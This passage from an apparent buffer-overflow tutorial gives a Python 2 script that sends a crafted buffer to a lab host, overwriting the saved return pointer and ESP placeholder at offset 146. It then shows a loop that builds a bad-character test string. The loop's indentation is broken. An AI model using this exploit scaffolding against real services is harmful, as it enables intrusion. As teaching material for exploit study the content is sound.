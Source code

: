 CODE:
```python
#!/usr/bin/env python2
import socket

# set up the IP and port we're connecting to
RHOST = "192.168.0.207"
RPORT = 31337

# create a TCP connection (socket)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

#variables
buf_totlen = 1024
offset_srp = 146

# build a happy little message followed by a newline
buf = ""
buf += "A"*(offset_srp - len(buf))  #padding
buf += "BBBB"			    #SRP Overwrite
buf += "CCCC"			    #ESP pointer
buf += "D"*(buf_totlen - len(buf))  #trailing
buf += "\n"

# send the happy little message down the socket
s.send(buf)

# print out what we sent
print "Sent: {0}".format(buf)

# receive some data from the socket
data = s.recv(1024)

# print out what we received
print "Received: {0}".format(data)
```


### Step 4 - Find Badchar

Identify bad characters:

Assume Already bad chars:  New line "\x0A" & Null Byte "\x00" 
 
Create a string containing all chars from \x00 to \xFF excluding \x00 and \x0A

```python
    #We've reasoned that these are definitely bad
    badchars = [0x00, 0x0A]   
    #Range(0x00, 0xFF) only returns up to 0xFE
    for i in range(0x00, 0xFF+1):    
    #Skip the badchars
    if i not in badchars:           
    #Append each non-badchar char to the string
    badchar_test += chr(i)     
```
 